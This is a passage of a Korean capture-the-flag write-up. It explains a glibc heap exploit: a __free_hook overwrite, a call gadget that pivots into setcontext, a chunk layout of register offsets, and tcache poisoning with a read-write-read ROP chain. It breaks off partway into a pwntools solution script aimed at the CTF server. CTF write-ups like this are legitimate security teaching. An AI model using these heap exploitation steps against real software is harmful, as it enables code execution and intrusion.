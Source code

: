   

 `__free_hook`을 덮어 호출하려고 할때 rdi는 해제하려는 buf의 주소를 가르킵니다.  이때 다음과 같은 call 가젯을 이용해 rdi를 rdx에 저장하고 `setcontext` 주소로 뛰게 만들 수 있습니다.

```c
mov     rdx, [rdi+8]
mov     [rsp], rax
call    qword ptr [rdx+0x20]
```

 

 청크를 다음과 같이 생성하여 위의 가젯으로 `__free_hook`을 호출하게 되면 `setcontext`를 다음과 같은 오프셋으로 정리할 수 있습니다. 마지막으로 rsp를 ROP payload를 가르키게 하면 됩니다.

```c
chunk:
0x00: pad
0x08: &chunk
0x10: pad
0x18: pad
0x20: setcontext (0x580DD)
0x28: r8
0x30: r9
0x38: pad
0x40: pad
0x48: r12
0x50: r13
0x58: r14
0x60: r15
0x68: rdi
0x70: rsi
0x78: rbp
0x80: rbx
0x88: rdx
0x90: pad
0x98: rcx
0xa0: rsp
...
```

### 2.3.4 Exploit

 note와 동일하게 libc address를 leak한 시점에서 Tcache poisoning을 이용하여 .bss 영역에 `setcontext + ROP payload(read-write-read)`를 포함한 청크를 할당시키고, `__free_hook`을 위에서 소개한 call gadget을 호출 시켜 setcontext와 ROP payload가 실행되도록 만들면 플래그를 출력할 수 있습니다.

 아래는 코드는 solution script입니다.

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.epist.kr', 30002)

libc = ELF('./libc.so.6')

def create(idx, size, note):
    p.sendlineafter('> ', str(1))
    p.sendlineafter(': ', str(idx))
    p.sendlineafter(': ', str(size))
    p.sendafter(': ', note)

def delete(idx):
    p.sendlineafter('> ', str(2))
    p.sendlineafter(': ', str(idx))

def edit(idx, note):
```